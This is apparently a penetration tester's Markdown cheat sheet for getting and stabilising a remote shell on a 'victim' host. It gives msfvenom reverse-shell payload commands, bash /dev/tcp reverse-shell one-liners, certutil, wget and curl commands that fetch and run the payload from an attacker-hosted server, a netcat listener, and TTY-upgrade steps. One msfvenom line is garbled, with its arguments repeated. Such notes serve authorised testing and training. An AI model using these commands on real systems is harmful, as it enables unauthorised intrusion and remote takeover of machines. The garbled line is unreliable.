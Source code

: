 
## Generate shell 
### with MSFvenom
https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
```
# Basic Windows shell
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4445 -f exe > shell.exe
msfvenom -p msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4445 -f exe > shell.exe LHOST=<KALI_IP> LPORT=4445 -f exe > shell.exe

# Basic Linux shell
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<KALI_IP> LPORT=4445 -f elf > shell.elf
```
### Simple bash reverse shell
Save it as shell.sh
```
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/4445 0>&1
```
Oneliner for webshells
```
bash -c "bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/4445 0>&1"
```

## Transfer the shell to the victim host
Assuming we have a basic webshell
```
# On Kali
python -m http.server 8081

# On victim
  # Windows
  certutil.exe -urlcache -split -f http://<KALI_IP>:8081/shell.exe shell.exe

  # Linux
  wget http://<KALI_IP>:8081/shell.elf
  ## or
  curl --output shell.elf http://<KALI_IP>:8081/shell.elf

  chmod +x shell.elf
  ./shell.elf

```

## Setup a netcat listener on Kali
```
nc -nlvp 4445
```

## Upgrade shell
When shell works, but does not support all features
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
<CTRL+Z>
stty -echo raw
fg
stty rows 41 columns 166
```
